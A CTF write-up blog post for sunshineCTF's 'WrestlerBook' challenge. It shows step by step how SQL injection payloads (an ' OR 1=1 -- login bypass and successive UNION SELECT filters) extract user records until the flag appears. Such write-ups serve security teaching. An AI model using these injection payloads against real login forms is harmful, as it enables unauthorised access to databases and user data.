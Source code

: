 ```yaml
---
layout: blogpost
title:  "sunshineCTF - Wrestler Book"
date:   2019-03-31 21:00:00 -0300
categories: ctf
---
```


## Challenge: 
WrestlerBook
## Description: 
"WrestlerBook is the social network for wrestlers, by wrestlers. WrestlerBook is exclusively for wrestlers, so if you didn't get an invite don't even bother trying to view our profile."
<br>
## Solution:
First thing I try on here is a simple ' OR 1=1 -- which gets us into hulk hogan. There is a flag attribute that he doesnt have. After trying a lot of different injections I finally crafted this:<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie') \-\- <br>
which brought us to a new page who is Jim Duggan and who also doesnt have a flag. My guess is we keep adding these users to the list of users we dont want. Maybe we will soon get a user with a flag.<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim') \-\-<br>
next username still no flag: machoasf<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf') \-\-<br>
Another one:milliondollarman<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman') \-\-<br>
'rich_flair'<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair') \-\-<br>
'user1': George Steele<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair', 'user1', 'user10', 'user100','user101','user102', 'user103', 'user104', 'user105','user106','user107','user108','user109') \-\- <br>
New idea is to check who isnt in the first set of users and who dont have the name user in their username<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair') AND username NOT LIKE 'user%' \-\-<br>
SELECT * FROM users WHERE username = '' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair') AND username NOT LIKE 'user%' ' and password = '' OR 1=1 \-\-' <br>
SELECT * FROM users WHERE username = ' <br>
' UNION SELECT * FROM users WHERE username NOT LIKE 'user%' AND username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair') ' and password = ''<br>
NOW:
	write query filtering something else than username

' UNION SELECT * FROM users WHERE password LIKE '%sun% '<br>
```After filtering based on ID I notied that the profiles were coming up in the same exact order as they were when I filtered by username which made me realize the other things listed must also be parts of the databse. I reconstructed this query below```

' UNION SELECT * FROM users WHERE flag NOT LIKE 'N%' AND flag NOT LIKE 'ex%' \-\- <br>
FINALLY when using the query above we get:<br>
"Generic Wrestler
Username: user84
Age: 65
Title: N/A
Flag: sun{ju57_4n07h3r_5ql1_ch4ll}"
